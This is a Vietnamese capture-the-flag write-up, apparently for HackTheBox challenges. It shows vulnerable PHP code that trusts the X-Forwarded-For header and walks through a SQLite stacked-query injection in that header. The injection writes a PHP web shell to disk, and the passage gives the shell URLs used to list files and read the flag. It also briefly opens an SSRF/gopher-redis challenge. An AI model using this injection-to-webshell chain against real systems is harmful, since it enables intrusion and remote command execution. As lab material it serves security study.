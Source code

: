 file `models/SubcriberModel.php` cho ta thấy 2 tham số `ip_address`, `email` được lấy từ đâu:
```php
# ............
    public function getSubscriberIP(){
        if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
            return  $_SERVER["HTTP_X_FORWARDED_FOR"];
        }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
            return $_SERVER["REMOTE_ADDR"];
        }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
            return $_SERVER["HTTP_CLIENT_IP"];
        }
        return '';
    }

    public function subscribe($email)
    {
        $ip_address = $this->getSubscriberIP();
        return $this->database->subscribeUser($ip_address, $email);
        
    }
```

Payload All The Thing SQLi của SQLite: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-command-execution-using-sqlite-command---attach-database

0. Flag nằm trong file `/flag{random_string}.txt` nên target bài này là  RCE thay vì chỉ đọc file.
1. Bởi query được nạp vào hàm `exec()`, hàm này có thể nhận nhiều query cùng 1 lúc(ngăn cách bởi `;`, thường dùng cho result-less query) và thực thi(khác với `query()`) nên ta có thể exploit `SQLi stacked queries`.
2. Bật docker test trên local với payload vừa có, thực thi `attach database` ta thấy có file được tạo, với PHP web app ta có thể tạo 1 file php rồi truy cập đến và RCE.

Mở BurpSuite đấm thôi, vì header `X-Forwarded-For` không bị filter gì, ta inject ngay chỗ này.
```
X-Forwarded-For: a','b'); ATTACH DATABASE '/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>")-- -
```



http://ip:port/?cmd=ls%20-la$20/
http://ip:port/?cmd=cat%20flag_1d23c48aade7db8.txt

**flag**: `HTB{inj3ct3d_th3_tru7h}`

## Red Island

**Description**: Một bài black-box

Truy cập website sau khi register và login ta được 1 trang cho phép nộp 1 url chứa image và nó sẽ đỏ hóa cái ảnh rồi trả về.

Bị SSRF nên đọc được hầu hết file, đọc 1 số file như `package.json` hay `app.js` cũng như từ tên bài ta biết có combo gopher + redis.
